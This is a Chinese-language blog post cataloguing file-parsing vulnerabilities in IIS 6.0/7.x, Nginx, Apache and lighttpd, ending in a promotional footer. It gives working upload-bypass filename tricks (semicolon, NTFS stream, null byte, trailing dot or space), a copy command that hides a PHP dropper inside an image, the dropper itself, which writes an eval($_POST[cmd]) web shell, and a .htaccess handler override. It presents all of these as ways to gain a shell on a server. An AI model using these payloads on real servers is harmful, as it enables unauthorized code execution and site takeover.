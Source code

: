 ```yaml
---
layout: post
category: binghe-code-hack
title: IIS 6.0/7.0/7.5、Nginx、Apache 等 Web Service 解析漏洞
tagline: by CurleyG
tag: [hack,binghe-code-hack]
excerpt: IIS 6.0/7.0/7.5、Nginx、Apache 等 Web Service 解析漏洞
lock: need
---
```


# IIS 6.0/7.0/7.5、Nginx、Apache 等 Web Service 解析漏洞

## [+]IIS 6.0

目录解析：/xx.asp/xx.jpg xx.jpg可替换为任意文本文件(e.g. xx.txt)，文本内容为后门代码

IIS6.0 会将 xx.jpg 解析为 asp 文件。

后缀解析：/xx.asp;.jpg   /xx.asp:.jpg(此处需抓包修改文件名)

IIS6.0 都会把此类后缀文件成功解析为 asp 文件。

（站长评论：IIS6.0解析漏洞的成因，可以查阅罗哥写的一篇短文：[IIS 文件名解析漏洞扼要分析](http://lcx.cc/?i=1958)）

{/xx.asp:.jpg 此类文件在Windows下不允许存在，:.jpg被自动除去，剩下/xx.asp}

（站长评论：发现错误，并不是不允许存在，这种路径叫做“NTFS数据流”，具体见：[IIS6使用冒号上传漏洞，发现IIS6漏洞(上传利用)](http://lcx.cc/?i=2448) 底下的评论）

默认解析：/xx.asa  /xx.cer  /xx.cdx

IIS6.0 默认的可执行文件除了 asp 还包含这三种

（站长评论：这种主要是由于在 IIS 默认配置中，这几个后缀默认由 asp.dll 来解析，所以执行权限和 .asp 一摸一样，你可在配置中自行删除该后缀，以防止安全隐患）

此处可联系利用目录解析漏洞 /xx.asa/xx.jpg 或 /xx.cer/xx.jpg 或 xx.asa;.jpg

## [+]IIS 7.0/IIS 7.5/Nginx <=0.8.37

IIS 7.0/IIS 7.5/Nginx <=0.8.37

在默认Fast-CGI开启状况下,在一个文件路径(/xx.jpg)后面加上/xx.php会将 /xx.jpg/xx.php 解析为 php 文件。

常用利用方法： 将一张图和一个写入后门代码的文本文件合并 将恶意文本写入图片的二进制代码之后，避免破坏图片文件头和尾

e.g. copy xx.jpg/b + yy.txt/a xy.jpg

\###################

/b 即二进制[binary]模式

/a 即ascii模式 xx.jpg正常图片文件

yy.txt 内容 <?PHP fputs(fopen('shell.php','w'),'<?php eval($_POST[cmd])?>');?>

意思为写入一个内容为 <?php eval($_POST[cmd])?> 名称为shell.php的文件

\###################

找个地方上传 xy.jpg ,然后找到 xy.jpg 的地址，在地址后加上 /xx.php 即可执行恶意文本。

然后就在图片目录下生成一句话木马 shell.php 密码 cmd

## [+]Nginx <=0.8.37

在Fast-CGI关闭的情况下，Nginx <=0.8.37 依然存在解析漏洞

在一个文件路径(/xx.jpg)后面加上%00.php会将 /xx.jpg%00.php 解析为 php 文件。

（站长评论：从 /test.jpg/x.php 演变过来的，具体可以参考：[Ngnix 空字节可远程执行代码漏洞](http://lcx.cc/?i=1716)）

## [+]Apache

后缀解析：test.php.x1.x2.x3

Apache将从右至左开始判断后缀，若x3非可识别后缀，再判断x2，直到找到可识别后缀为止，然后将该可识别后缀进解析

test.php.x1.x2.x3 则会被解析为php

经验之谈：php|php3|phtml 多可被Apache解析

（站长评论：关于 apache 解析漏洞可以查阅“[Apache 漏洞之后缀名解析漏洞](http://lcx.cc/?i=337)”）

## [+]其他一些可利用的

在windows环境下，xx.jpg[空格] 或xx.jpg. 这两类文件都是不允许存在的，若这样命名，windows会默认除去空格或点，这也是可以被利用的！

在向一台windows主机上传数据时，你可以抓包修改文件名，在后面加个空格或点，试图绕过黑名单，若上传成功，最后的点或空格都会被消除，这样就可得到shell。

我记得Fck Php 2.6就存在加空格绕过的漏洞。{Linux主机中不行，Linux允许这类文件存在}

如果在Apache中.htaccess可被应用（Apache的配置文件httpd.conf中对目录的AllowOverride设置为All时，apache会应用目录下.htaccess中的配置 By sfasfas），

且可以被上传，那可以尝试在.htaccess中写入:

<FilesMatch “shell.jpg”> SetHandler application/x-httpd-php </FilesMatch>

shell.jpg换成你上传的文件，这样shell.jpg就可解析为php文件

## [+]lighttpd

xx.jpg/xx.php

[Add by El4pse]

## 写在最后

> 如果你觉得冰河写的还不错，请微信搜索并关注「 **冰河技术** 」微信公众号，跟冰河学习高并发、分布式、微服务、大数据、互联网和云原生技术，「 **冰河技术** 」微信公众号更新了大量技术专题，每一篇技术文章干货满满！不少读者已经通过阅读「 **冰河技术** 」微信公众号文章，吊打面试官，成功跳槽到大厂；也有不少读者实现了技术上的飞跃，成为公司的技术骨干！如果你也想像他们一样提升自己的能力，实现技术能力的飞跃，进大厂，升职加薪，那就关注「 **冰河技术** 」微信公众号吧，每天更新超硬核技术干货，让你对如何提升技术能力不再迷茫！


![](https://img-blog.csdnimg.cn/20200906013715889.png)
